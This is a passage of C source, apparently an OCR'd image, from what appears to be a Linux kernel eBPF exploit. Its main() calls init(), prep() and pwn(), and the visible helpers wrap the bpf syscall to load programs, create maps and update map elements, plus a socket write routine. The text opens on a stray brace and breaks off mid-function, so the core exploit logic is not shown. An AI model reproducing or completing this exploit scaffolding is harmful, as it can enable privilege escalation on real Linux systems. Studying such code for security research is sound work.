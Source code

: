 ```c
}


int main(int argc,char **argv){
    init();
    prep();
    pwn();
    return 0;
}

static void __exit(char *err) {              
    fprintf(stderr, "error: %s\n", err); 
    exit(-1);                            
}                                            

static void writemsg(void) 
{
	char buffer[64];

	ssize_t n = write(sockets[0], buffer, sizeof(buffer));

	if (n < 0) {
		perror("write");
		return;
	}
	if (n != sizeof(buffer))
		fprintf(stderr, "short write: %lu\n", n);
}


static int bpf_prog_load(enum bpf_prog_type prog_type,         
        const struct bpf_insn *insns, int prog_len,  
        const char *license, int kern_version){

    union bpf_attr attr = {                                        
        .prog_type = prog_type,                                
        .insns = (uint64_t)insns,                              
        .insn_cnt = prog_len / sizeof(struct bpf_insn),        
        .license = (uint64_t)license,                          
        .log_buf = (uint64_t)bpf_log_buf,                      
        .log_size = LOG_BUF_SIZE,                              
        .log_level = 1,                                        
    };                                                             
    attr.kern_version = kern_version;                              
    bpf_log_buf[0] = 0;                                            
    return syscall(__NR_bpf, BPF_PROG_LOAD, &attr, sizeof(attr));  

}
static int bpf_create_map(enum bpf_map_type map_type, int key_size, int value_size,  
        int max_entries){

    union bpf_attr attr = {                                         
        .map_type = map_type,                                   
        .key_size = key_size,                                   
        .value_size = value_size,                               
        .max_entries = max_entries                              
    };                                                              
    return syscall(__NR_bpf, BPF_MAP_CREATE, &attr, sizeof(attr));  

}                                                
static int bpf_update_elem(int fd ,void *key, void *value,uint64_t flags){
    union bpf_attr attr = {                                              
        .map_fd = fd,                                                
```